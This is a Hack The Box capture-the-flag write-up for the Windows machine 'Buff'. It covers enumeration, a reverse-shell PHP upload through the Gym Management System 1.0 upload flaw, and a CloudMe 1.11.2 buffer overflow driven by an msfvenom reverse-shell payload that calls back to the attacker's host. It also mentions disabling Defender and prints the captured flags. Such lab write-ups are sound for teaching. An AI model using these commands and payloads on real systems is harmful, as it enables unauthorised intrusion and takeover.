

+++
title = "Buff"
date = "2023-11-25"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2020-07-18

**Created by**: [egotisticalSW](https://app.hackthebox.com/users/94858)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.10`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.198`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Buff using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.198" -p-
```

```
<SNIP>
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.198" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.198" -p "7680,8080" -sV
```

```
<SNIP>
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
<SNIP>
```

Alright, so the version of Apache suggests that Buff might be running Windows.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.198" -p "7680,8080" -sC
```

```
<SNIP>
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
<SNIP>
```

## Services enumeration

### Apache

#### Exploration

Let's browse to `http://10.10.10.198:8080/`.


This is a website that promotes the `phpbash` tool.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



If we check the HTTP headers of the response, we also find a `X-Powered-By`
header specifying that the web page is using PHP version `7.4.6`.

Moreover, the `/contact.php` page of the website indicates that it's using Gym
Management System version `1.0`.

#### Exploration

We have access to a few web pages, and we have the possibility of logging in.

If we search online for Gym Management System's default credentials, we don't
find any.

What about common credentials then? I launched a Cluster bomb attack on Burp
Suite using
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
for the usernames and
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-passwords-shortlist.txt)
for the passwords. Unfortunately, they all failed.

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for
`Gym Management System 1.0`, we find
[Gym Management System 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/48506).

## Foothold (File upload)

Gym Management System version `1.0` is vulnerable to an unauthenticated file
upload exploit that leads to RCE. The vulnerability lies in the `/upload.php`
page, which lacks authentication checks. By manipulating the `id` parameter in
the GET request, an attacker can upload a malicious PHP file that bypasses image
upload filters. The exploit involves bypassing extension whitelists, file type
checks, and utilizing a double extension with the last one being a valid
extension. The PHP file is then executed on the server-side, granting the
attacker RCE.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the 'PHP Ivan Sincek' payload from
[RevShells](https://www.revshells.com/).

I'll save it as `revshell.php.png` to bypass the file extension whitelist.

### Exploitation

Let's upload our PHP file to the endpoint `/upload.php` with the `id` set to the
filename we want to upload.

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.198:8080/upload.php?id=revshell" -X "POST" -F "file=@/workspace/revshell.php.png;type=image/png" -F "pupload=upload"
```

Then, let's trigger our `revshell.php` file!

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.198:8080/upload/revshell.php"
```

And if we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.198] 49676
<SNIP>
C:\xampp\htdocs\gym\upload>
```

It caught the reverse shell!

I'll transform it into a Powershell one.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `shaun`.

### Architecture

What is Buff's architecture?

```ps1
PS C:\xampp\htdocs\gym\upload> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" | Select-Object -ExpandProperty "PROCESSOR_ARCHITECTURE"
```

```
AMD64
```

It's using AMD64. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Buff.

```ps1
PS C:\xampp\htdocs\gym\upload> Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" | Format-List -Property "ProductName", "CurrentBuildNumber"
```

```
ProductName        : Windows 10 Enterprise
CurrentBuildNumber : 17134
```

In fact, it's Windows 10 build `17134`.

### Hotfixes

Let's retrieve the list of installed hotfixes.

```ps1
PS C:\xampp\htdocs\gym\upload> Get-HotFix | Select-Object -ExpandProperty "HotFixID"
```

We get nothing, so we probably encountered an error.

### Users

Let's enumerate all users using `PowerView`.

```ps1
PS C:\xampp\htdocs\gym\upload> Get-NetLocalGroupMember -GroupName "Users" | Where-Object { $_.MemberName -notmatch "NT AUTHORITY" } | Select-Object "MemberName", "SID" | Format-Table -AutoSize
```

```
MemberName SID
---------- ---
BUFF\shaun S-1-5-21-2277156429-3381729605-2640630771-1001
```

There's only `shaun` (us).

What about the administrators?

```ps1
PS C:\xampp\htdocs\gym\upload> Get-NetLocalGroupMember -GroupName "Administrators" | Where-Object { $_.MemberName -notmatch "NT AUTHORITY" } | Select-Object "MemberName", "SID" | Format-Table -AutoSize
```

```
MemberName         SID
----------         ---
BUFF\Administrator S-1-5-21-2277156429-3381729605-2640630771-500
```

We only find the built-in `Administrator`.

### Groups

Let's enumerate all groups, once again using `PowerView`.

```ps1
PS C:\xampp\htdocs\gym\upload> Get-NetLocalGroup | Select-Object "GroupName", "Comment" | Format-Table -AutoSize
```

```
GroupName                           Comment
---------                           -------
Access Control Assistance Operators Members of this group can remotely query authorization attributes and permissions for resources on this computer.
Administrators                      Administrators have complete and unrestricted access to the computer/domain        
Backup Operators                    Backup Operators can override security restrictions for the sole purpose of backing up or restoring files
Cryptographic Operators             Members are authorized to perform cryptographic operations.                        
Device Owners                       Members of this group can change system-wide settings.                             
Distributed COM Users               Members are allowed to launch, activate and use Distributed COM objects on this machine.
Event Log Readers                   Members of this group can read event logs from local machine                       
Guests                              Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted
Hyper-V Administrators              Members of this group have complete and unrestricted access to all features of Hyper-V.
IIS_IUSRS                           Built-in group used by Internet Information Services.                              
Network Configuration Operators     Members in this group can have some administrative privileges to manage configuration of networking features
Performance Log Users               Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and via remote access to this computer
Performance Monitor Users           Members of this group can access performance counter data locally and remotely     
Power Users                         Power Users are included for backwards compatibility and possess limited administrative powers
Remote Desktop Users                Members in this group are granted the right to logon remotely                      
Remote Management Users             Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.
Replicator                          Supports file replication in a domain                                              
System Managed Accounts Group       Members of this group are managed by the system.                                   
Users                               Users are prevented from making accidental or intentional system-wide changes and can run most applications
```

### NICs

Let's gather the list of connected NICs.

```ps1
PS C:\xampp\htdocs\gym\upload> ipconfig /all
```

```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : BUFF
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-9B-AC
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::57(Preferred) 
   Lease Obtained. . . . . . . . . . : 04 March 2024 14:51:25
   Lease Expires . . . . . . . . . . : 04 March 2024 15:51:25
   IPv6 Address. . . . . . . . . . . : dead:beef::ac3d:e703:1d9e:9ff3(Preferred) 
   Temporary IPv6 Address. . . . . . : dead:beef::64a6:d5aa:76d7:4d01(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::ac3d:e703:1d9e:9ff3%10(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.10.198(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:1014%10
                                       10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 218124374
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2D-77-98-44-00-50-56-B9-9B-AC
   DNS Servers . . . . . . . . . . . : 8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled
   Connection-specific DNS Suffix Search List :
                                       htb
```

There's only an Ethernet interface.

## System enumeration

### Flags

If we check our Desktop folder, we find the user flag.

```ps1
PS C:\xampp\htdocs\gym\upload> Get-Content "C:\Users\shaun\Desktop\user.txt"
```

```
5c383043bb3ac89aeba7dec0e0c5ad87
```

### Home folders

If we explore our Downloads folder, we notice something unusual:

```ps1
PS C:\xampp\htdocs\gym\upload> Get-ChildItem "C:\Users\shaun\Downloads"
```

```
<SNIP>
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe
```

There's a `CloudMe_1112.exe` file. Let's keep that in mind.

### Listening ports

Let's see if any TCP local ports are listening for connections.

```ps1
PS C:\xampp\htdocs\gym\upload> netstat -ano | findstr /C:"LISTENING" | findstr /C:"TCP"
```

```
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       952
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       4688
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       9156
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       1592
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       528
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1084
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1640
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2188
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       672
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       696
  TCP    10.10.10.198:139       0.0.0.0:0              LISTENING       4
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       5300
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       3756
  TCP    [::]:135               [::]:0                 LISTENING       952
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:7680              [::]:0                 LISTENING       9156
  TCP    [::]:8080              [::]:0                 LISTENING       1592
  TCP    [::]:49664             [::]:0                 LISTENING       528
  TCP    [::]:49665             [::]:0                 LISTENING       1084
  TCP    [::]:49666             [::]:0                 LISTENING       1640
  TCP    [::]:49667             [::]:0                 LISTENING       2188
  TCP    [::]:49668             [::]:0                 LISTENING       672
  TCP    [::]:49669             [::]:0                 LISTENING       696
```

Let's focus on the open ports listening on the local machine, which we couldn't
access from the outside.

We notice that the port `3306/tcp` is listening, which corresponds to MySQL. It
probably holds the credentials for the website we explored earlier. But what is
the port `8888/tcp` used for?

Let's see which process uses the PID associated with this port.

```ps1
PS C:\xampp\htdocs\gym\upload> Get-Process -Id (netstat -ano | Select-String -Pattern "8888" | ForEach-Object { $_ -split '\s+' } | ForEach-Object { $_.Trim() } | Where-Object { $_ -ne '' } | Select-Object -Last "1")
```

```
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
    341      24    30548      37576              2744   0 CloudMe
```

This `CloudMe` program again! So it's running on this machine.

> CloudMe is a file storage service operated by CloudMe AB that offers cloud
> storage, file synchronization and client software. It features a blue folder
> that appears on all devices with the same content, all files are synchronized
> between devices.
>
> — [Wikipedia](https://en.wikipedia.org/wiki/CloudMe)

## Services enumeration

### CloudMe

#### Fingerprinting

I've setup a remote port forwarding using `chisel` to make this service
available on my own machine.

I tried to interact with this service with `nc`, but the connection
automatically closes after a short amount of time.

Since we found a `CloudMe_1112.exe` file in `shaun`'s Downloads folder, we can
assume that CloudMe is using version `1.11.2`.

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for `CloudMe 1.11.2`, we
find
[CloudMe 1.11.2 - Buffer Overflow (PoC)](https://www.exploit-db.com/exploits/48389).

## Privilege escalation (BOF)

CloudMe version `1.11.2` is vulnerable to a buffer overflow, which allows an
attacker to execute commands in the context of the CloudMe service.

### Preparation

I'm going to use the given PoC Python script to exploit this BOF.

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9002"
```

Then, I'll generate a shellcode with `msfvenom`.

```sh
❯ msfvenom -p "windows/shell_reverse_tcp" LHOST="10.10.14.10" LPORT="9002" -f "python" -b "\x00\x0A\x0D" -v "payload"
```

I'll replace the PoC script payload with the generated shellcode, and save I'll
save the PoC as `exploit.py`.

### Exploitation

Let's exploit this vulnerability to elevate our privileges.

```sh
❯ python "/workspace/exploit.py"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.198] 49698
<SNIP>
C:\Windows\system32>
```

It caught the reverse shell!

I'll transform it into a Powershell one.

## System enumeration

If we run `whoami`, we see that we're `Administrator`.

For the sake of completeness, I'll disable Windows Defender and I'll use
[Juicy Potato](https://github.com/ohpe/juicy-potato) to get
`NT AUTHORITY\SYSTEM`.

### Flags

As usual, we can find the root flag in our home folder.

```ps1
PS C:\Windows\system32> Get-Content "C:\Users\Administrator\Desktop\root.txt"
```

```
c1769163f48d0dcd84f851ba3719e32f
```

# Afterwords


That's it for this box! 🎉

I rated the user flag as 'Easy' and the root flag as 'Not too easy'. The
foothold was easy overall, the hardest part was finding the technology used to
generate the website, but it only required a bit of exploration really. It was
then straightforward to find a CVE affecting this machine, and to exploit it to
get a foothold. I feel like the privilege escalation was a bit harder, it was
easy to determine that CloudMe was running and was vulnerable to a CVE, but a
bit harder to exploit this CVE, since it involved performing a BOF while
forwarding CloudMe's remote port to our own machine.

Thanks for reading!
